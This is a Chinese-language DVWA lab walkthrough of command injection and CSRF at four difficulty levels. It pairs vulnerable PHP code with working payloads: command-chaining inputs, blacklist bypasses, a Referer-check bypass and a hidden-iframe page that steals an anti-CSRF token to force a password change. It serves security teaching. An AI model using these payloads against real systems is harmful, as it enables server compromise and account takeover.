[TOC]

# Command Injection
即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一，国内著名的Web应用程序Discuz!、DedeCMS等都曾经存在过该类型漏洞。

下面对四种级别的代码进行分析。

## 1. Low
### 核心代码
```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>

```
### 相关函数介绍 

* stristr(string,search,before_search)


stristr函数搜索字符串在另一字符串中的第一次出现，返回字符串的剩余部分（从匹配点），如果未找到所搜索的字符串，则返回 FALSE。参数string规定被搜索的字符串，参数search规定要搜索的字符串（如果该参数是数字，则搜索匹配该数字对应的 ASCII 值的字符），可选参数before_true为布尔型，默认为“false” ，如果设置为 “true”，函数将返回 search 参数第一次出现之前的字符串部分。

* php_uname(mode)

这个函数会返回运行php的操作系统的相关描述，参数mode可取值”a” （此为默认，包含序列”s n r v m”里的所有模式），”s ”（返回操作系统名称），”n”（返回主机名），” r”（返回版本名称），”v”（返回版本信息）， ”m”（返回机器类型）。

可以看到，服务器通过判断操作系统执行不同ping命令，但是对ip参数并未做任何的过滤，导致了严重的命令注入漏洞。

### 漏洞利用
#### 1. `&&`
如果每个命令被 `&&` 号分隔，那么这些命令会一直执行下去，如果中间有错误的命令存在，则不再执行后面的命令，没错则执行到完为止：
```
#有没有空格都一样
127.0.0.1+%26%26+dir
```


#### 2.  `&`

一般`&` 表示任务在后台执行
`Command 1&Command 2`
先执行Command 1，不管是否成功，都会执行Command 2
```
127.0.0.1%26dir
```


#### 3.  `|`

管道符，当用此连接符连接多个命令时，前面命令执行的正确输出，会交给后面的命令继续处理。若前面的命令执行失败，则会报错，若后面的命令无法处理前面命令的输出，也会报错。

`Command 1 | Command 2`

`|`是管道符，表示将Command 1的输出作为Command 2的输入，并且只打印Command 2执行的结果。
```
#有没有空格都一样
127.0.0.1+%7C+dir
```


#### 4.  `||`
如果每个命令被双竖线(||)分隔符分隔，如果命令遇到可以成功执行的命令，那么命令停止执行，即使后面还有正确的命令则后面的所有命令都将得不到执行。
```
256.0.0.1%7C%7Cdir
```



#### 5. `;`
```
127.0.0.1;dir
```
这个在windows下执行不成功



盗图在Linux下的情况




## 2. Medium
### 代码
```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = $_REQUEST[ 'ip' ]; 

    // Set blacklist 
    $substitutions = array( 
        '&&' => '', 
        ';'  => '', 
    ); 

    // Remove any of the charactars in the array (blacklist). 
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 

    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 

?> 
```
可以看到，相比Low级别的代码，服务器端对ip参数做了一定过滤，即把`&&` 、`;`删除，本质上采用的是黑名单机制，因此依旧存在安全问题。
### 相关函数介绍 
* str_replace
如果 search 和 replace 为数组，那么 str_replace() 将对 subject 做二者的映射替换。如果 replace 的值的个数少于 search 的个数，多余的替换将使用空字符串来进行。如果 search 是一个数组而 replace 是一个字符串，那么 search 中每个元素的替换将始终使用这个字符串。该转换不会改变大小写。

### 漏洞利用

除了Low中漏洞利用方式的2,3,4方式外，由于使用的是`str_replace`把`&&` 、`;`替换为空字符，因此可以采用以下方式绕过：
```
127.0.0.1&;&dir
```


## 3. High
### 代码
```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = trim($_REQUEST[ 'ip' ]); 

    // Set blacklist 
    $substitutions = array( 
        '&'  => '', 
        ';'  => '', 
        '| ' => '', 
        '-'  => '', 
        '$'  => '', 
        '('  => '', 
        ')'  => '', 
        '`'  => '', 
        '||' => '', 
    ); 

    // Remove any of the charactars in the array (blacklist). 
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 

    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 

?> 
```
相比Medium级别的代码，High级别的代码进一步完善了黑名单，但由于黑名单机制的局限性，我们依然可以绕过。
### 漏洞利用
黑名单看似过滤了所有的非法字符，但仔细观察到是把`| `（注意这里`|`后有一个空格）替换为空字符，于是 `|`和` |`成了“漏网之鱼”。
```
127.0.0.1|dir
127.0.0.1 |dir
```


## 4. Impossible
### 代码
```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $target = $_REQUEST[ 'ip' ]; 
    $target = stripslashes( $target ); 

    // Split the IP into 4 octects 
    $octet = explode( ".", $target ); 

    // Check IF each octet is an integer 
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together. 
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3]; 

        // Determine OS and execute the ping command. 
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
            // Windows 
            $cmd = shell_exec( 'ping  ' . $target ); 
        } 
        else { 
            // *nix 
            $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
        } 

        // Feedback for the end user 
        echo "<pre>{$cmd}</pre>"; 
    } 
    else { 
        // Ops. Let the user name theres a mistake 
        echo '<pre>ERROR: You have entered an invalid IP.</pre>'; 
    } 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```
可以看到，Impossible级别的代码加入了Anti-CSRF token，同时对参数ip进行了严格的限制，只有诸如“数字.数字.数字.数字”的输入才会被接收执行，因此不存在命令注入漏洞。
### 相关函数介绍

* stripslashes(string)

stripslashes函数会删除字符串string中的反斜杠，返回已剥离反斜杠的字符串。

* explode(separator,string,limit)

把字符串打散为数组，返回字符串的数组。参数separator规定在哪里分割字符串，参数string是要分割的字符串，可选参数limit规定所返回的数组元素的数目。

* is_numeric(string)

检测string是否为数字或数字字符串，如果是返回TRUE，否则返回FALSE。
## 参考
1. http://www.freebuf.com/articles/web/116714.html

---
# CSRF
CSRF，全称`Cross-site request forgery`，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。在2013年发布的新版OWASP Top 10中，CSRF排名第8。2017年落榜但仍未忘记的风险类型。

下面对四种级别的代码进行分析。
## 1. Low
### 代码
```
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
        // They do! 
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
        $pass_new = md5( $pass_new ); 

        // Update the database 
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match.</pre>"; 
    } 

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res); 
} 

?> 
```
 可以看到，服务器收到修改密码的请求后，会检查参数password_new与password_conf是否相同，如果相同，就会修改密码，并没有任何的防CSRF机制（当然服务器对请求的发送者是做了身份验证的，是检查的cookie，只是这里的代码没有体现）。

### 漏洞利用
1. 最基础的-构造链接
```
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#
```


当受害者点击了这个链接，他的密码就会被改成password（这种攻击显得有些拙劣，链接一眼就能看出来是改密码的，而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了）
需要注意的是，CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用搜狗浏览器点击这个链接，攻击是不会触发的，因为搜狗浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面。

有人会说，这个链接也太明显了吧，不会有人点的，没错，所以真正攻击场景下，我们需要对链接做一些处理。

2. 使用短链接来隐藏URL
例如：
* `http://suo.im/`
支持服务器域名是ip所以生成相应的短链接
提供TXT、JSON、JSONP的接口


需要提醒的是，虽然利用了短链接隐藏url，但受害者最终还是会看到密码修改成功的页面，所以这种攻击方法也并不高明。


* https://dwz.cn/

3. 构造攻击页面
现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成CSRF攻击。这里为了方便演示，就在本地写一个csrf_test.html，下面是具体代码。
```csrf_test.html


<h1>404<h1>

<h2>file not found.<h2>
```
当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack。


在浏览器那抓不到返回包，使用burpsuite可以看到请求与响应。



## 2. Medium
### 代码
```
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Checks to see where the request came from 
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
        // Get input 
        $pass_new  = $_GET[ 'password_new' ]; 
        $pass_conf = $_GET[ 'password_conf' ]; 

        // Do the passwords match? 
        if( $pass_new == $pass_conf ) { 
            // They do! 
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
            $pass_new = md5( $pass_new ); 

            // Update the database 
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user 
            echo "<pre>Password Changed.</pre>"; 
        } 
        else { 
            // Issue with passwords matching 
            echo "<pre>Passwords did not match.</pre>"; 
        } 
    } 
    else { 
        // Didn't come from a trusted source 
        echo "<pre>That request didn't look correct.</pre>"; 
    } 

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res); 
} 

?> 
```
可以看到，Medium级别的代码检查了保留变量 `HTTP_REFERER`（http包头的Referer参数的值，表示来源地址,这里是`http://127.0.0.1/DVWA/vulnerabilities/csrf/`）中是否包含`SERVER_NAME`（http包头的Host参数，及要访问的主机名，这里是127.0.0.1），希望通过检查来源的机制抵御CSRF攻击。


### 相关函数介绍
* stripos
stripos(string,find)：string规定要搜索的字符串。find规定要查找的字符。stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。返回 find存在于 string字符串开始的位置(独立于偏移量)。同时注意字符串位置起始于 0，而不是 1。如果未发现 find将返回 FALSE。
### 漏洞利用
过滤规则是http包头的Referer参数的值中必须包含主机名（这里是127.0.0.1）
我们可以将攻击页面命名为127.0.0.1html（页面被放置在攻击者的服务器里，这里是`1.self.com`）就可以绕过了


大部分情况下，防护端代码不会这么写，因为要考虑在没有Referer的情况下的使用情况.

## 3. High
### 代码
```
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
        // They do! 
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
        $pass_new = md5( $pass_new ); 

        // Update the database 
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match.</pre>"; 
    } 

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res); 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```
可以看到，High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。

### 漏洞利用
要绕过High级别的反CSRF机制，关键是要获取token，要利用受害者的cookie去修改密码的页面获取关键的token。

试着去构造一个攻击页面，将其放置在攻击者的服务器，引诱受害者访问，从而完成CSRF攻击，下面是代码。
```
<html>
<script type="text/javascript">

    function attack()

  {

   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;

  document.getElementById("transfer").submit(); 

  }

</script>

 

<iframe src="http://127.0.0.1/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

</iframe>

 

<body onload="attack()">

  <form method="GET" id="transfer" action="http://127.0.0.1/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="password">

    <input type="hidden" name="password_conf" value="password">

   <input type="hidden" name="user_token" value="">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
</html>
```
攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。如下图x
